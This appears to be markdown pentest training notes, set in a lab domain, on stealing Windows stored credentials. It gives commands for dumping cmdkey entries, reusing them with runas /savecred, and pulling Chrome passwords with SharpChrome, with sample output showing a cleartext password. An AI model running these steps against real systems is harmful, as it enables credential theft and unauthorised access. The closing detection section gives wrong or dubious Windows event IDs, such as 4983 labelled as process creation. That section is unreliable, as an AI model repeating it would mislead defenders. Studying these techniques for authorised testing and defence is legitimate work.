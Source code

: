 # Further Credential Theft

## 🎯 Overview

**Advanced credential theft techniques** go beyond basic file searches to extract stored credentials from **browsers**, **password managers**, **registry storage**, **saved RDP sessions**, and **wireless profiles**. These methods target credentials stored by applications, Windows features, and user convenience configurations.

## 💾 Cmdkey Saved Credentials

### Listing Stored Credentials
```cmd
# List saved credentials for Terminal Services/RDP
cmdkey /list

# Example output:
Target: LegacyGeneric:target=TERMSRV/SQL01
Type: Generic
User: inlanefreight\bob
```

### Exploiting Saved Credentials
```cmd
# Use saved credentials with runas
runas /savecred /user:inlanefreight\bob "COMMAND HERE"

# RDP connections will automatically use saved credentials
# Target system: SQL01 with saved bob credentials
```

## 🌐 Browser Credentials

### Chrome Credential Extraction
```powershell
# Use SharpChrome to extract saved passwords
.\SharpChrome.exe logins /unprotect

# Example output:
--- Chrome Credential ---
file_path: C:\Users\bob\AppData\Local\Google\Chrome\User Data\Default\Login Data
signon_realm: https://vc01.inlanefreight.local/
username: bob@inlanefreight.local
password: Welcome1
```

### Detection Considerations
```cmd
# Browser credential extraction generates events:
- Event ID 4983: Process creation
- Event ID 4688: Process execution
- Event ID 16385: Chrome-specific events
```
